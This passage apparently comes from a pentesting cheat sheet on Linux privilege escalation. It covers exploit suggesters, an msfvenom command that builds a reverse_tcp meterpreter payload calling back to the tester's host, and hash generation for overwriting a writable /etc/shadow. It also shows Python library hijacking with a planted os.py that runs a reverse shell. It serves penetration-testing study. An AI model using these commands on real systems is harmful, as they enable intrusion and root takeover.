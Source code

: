 ```bash
linux-exploit-suggester.sh
# Then take exploit file .c, upload it to the target machine and there:
gcc file.c -o exploit

# LOCAL EXPLOIT SUGGESTER (METASPLOIT)
run post/multi/recon/local_exploit_suggester
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```
{% endcode %}

## Restricted shell

{% embed url="https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/" %}

{% content-ref url="../../exploitation/shells.md" %}
[shells.md](../../exploitation/shells.md)
{% endcontent-ref %}

## Create password hash

```bash
python -c 'import crypt; print crypt.crypt("hello","salted")'

# The command below works at least for /etc/shadow
mkpasswd -m sha-512 newpasswordhere
openssl passwd hola1234
# By default, if no other option is specified, openssl will generate a hash using the crypt algorithm by default.
openssl passwd -1 -salt [user] [password]
openssl passwd -1 -salt hacker 123456
$1$hacker$6luIRwdGpBvXdP.GMwcZp/
```

## Writable /etc/shadow

We can change the hash of a more privileged user for a known one and after we can leverage with su (user).

## Library Hijacking-Python

[https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

Usually, Python takes libraries from the current directory. We can check this:

{% code overflow="wrap" %}
```bash
python
>> import sys
>> sys.path
# If we see [''] (empty value), it means it first searchs for libraries in the current path (the path where the Python script is located and where we need write privileges).

#If for example the library os.py is affected, we can create a file os.py in the same path as the Python script with this content:
import os
os.system('reverse shell')

#Another option is to search for that library, maybe we have write permissions to type the previous commands but at the end of that library file already existent.

# On the Python script folder where we have write permissions
```